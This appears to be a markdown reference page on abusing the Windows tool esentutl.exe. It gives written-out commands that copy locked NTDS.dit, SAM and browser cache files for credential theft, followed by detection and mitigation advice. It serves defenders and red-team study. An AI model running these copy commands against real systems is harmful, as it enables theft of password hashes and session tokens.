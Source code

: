 # esentutl.exe  
## What is it?  
*```esentutl.exe``` (Extensible Storage Engine Utility) is a **Windows built-in command-line tool** used to manage and repair Extensible Storage Engine (ESE) database files.*  
*It is primarily used for **maintaining Windows system databases**, such as:*  

- **Active Directory (NTDS.dit)**  
- **Windows Search Index**  
- **Windows Update Database (SoftwareDistribution)**  
- **Browser Cache Storage**  

*Because ```esentutl.exe``` is a **trusted Microsoft binary**, attackers can abuse it for malicious purposes while evading security detections.*  

## Legitimate Usage  
- **Repairing Corrupt Databases** → ```esentutl /r <DatabaseFile>```  
- **Backing Up Windows Databases** → ```esentutl /y <DatabaseFile> /d <Destination>```  
- **Defragmenting Windows Database Files** → ```esentutl /d <DatabaseFile>```  
- **Extracting Data from System Databases** → ```esentutl /x <DatabaseFile>```  

## How to abuse it  
- **Copying Locked Files (Bypassing File Locks)** → Extracting sensitive system databases.  
- **Credential Theft** → Dumping NTDS.dit (Active Directory credentials).  
- **Data Exfiltration** → Extracting and copying sensitive files to evade detection.  
- **Persistence & Defense Evasion** → Using ```esentutl.exe``` as a trusted binary for malicious activity.  

## Example Attacks  
### 1. Extracting NTDS.dit for Credential Theft  
*Attackers can use ```esentutl.exe``` to extract Active Directory credentials by copying the NTDS.dit file.*  

```
esentutl /y C:\Windows\NTDS\ntds.dit /d C:\Temp\ntds.dit /o
```

**Effect:**  
- Copies NTDS.dit, which stores **hashed passwords** of domain users.  
- The ```/o``` flag **bypasses file locks**, allowing attackers to copy the file even when in use.  

### 2. Copying Windows Update Database (SoftwareDistribution)  
*Attackers may extract update logs and cache to analyze system patches and security updates.*  

```
esentutl /y C:\Windows\SoftwareDistribution\DataStore\DataStore.edb /d C:\Temp\DataStore.edb /o
```

**Effect:**  
- Copies Windows Update database for forensic analysis or bypassing patch security.  

### 3. Exfiltrating Browser Cache Data  
*Extract browser cache storage to steal user session tokens or browsing history.*  

```
esentutl /y C:\Users\Administrator\AppData\Local\Microsoft\Windows\WebCache\WebCacheV01.dat /d C:\Temp\WebCacheV01.dat /o
```

**Effect:**  
- Extracts browser cache files that may contain **authentication tokens or history**.  

### 4. Bypassing Security Controls via Trusted Execution  
*Using ```esentutl.exe``` as a trusted binary to copy restricted files stealthily.*  

```
esentutl /y C:\Windows\System32\config\SAM /d C:\Temp\SAM /o
```

**Effect:**  
- Copies the **SAM registry hive**, which contains **local user password hashes**.  

## Detection & Mitigation  
### Detection Methods  
- **Monitor Execution of `esentutl.exe`** → Rarely used outside of administrative tasks.  
- **Look for Unauthorized File Access** → Copying NTDS.dit, SAM, or WebCache files.  
- **Check Process Execution Logs** → ```esentutl.exe``` interacting with sensitive system databases.  

### Mitigation Strategies  
- **Restrict Access to Critical Files** → Prevent unauthorized users from accessing NTDS.dit and SAM.  
- **Use Application Control (AppLocker, WDAC)** → Block execution of ```esentutl.exe``` in non-admin contexts.  
- **Monitor Suspicious File Copies** → Detect unexpected database extractions.  
